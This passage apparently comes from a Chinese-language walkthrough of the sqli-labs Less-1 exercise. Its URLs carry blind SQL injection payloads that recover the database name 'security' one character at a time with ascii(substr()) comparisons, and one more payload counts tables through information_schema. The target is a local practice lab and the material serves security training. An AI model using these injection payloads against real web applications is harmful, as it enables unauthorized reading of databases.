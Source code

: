 第二个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),2,1)) = 101 --+
```

> 第二个码为 101 是 e

第三个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),3,1)) = 99 --+
```

> 第二个码为 99 是 c

第四个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),4,1)) = 117 --+
```

> 第四个码为 117 是 u

第五个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),5,1)) = 114 --+
```

> 第五个码为 114 是 r

第六个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),6,1)) = 105 --+
```

> 第六个码为 105 是 i

第七个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),7,1)) = 116 --+
```

> 第七个码 为116 是 t

第八个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),8,1)) = 121 --+
```

> 第八个码为 121 是 y

数据库名为 `security`

**爆表**

**确定当前库中表的个数**

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```



## 2.2 Less-2

---

参考链接

- [SQLI labs](https://github.com/Audi-1/sqli-labs)

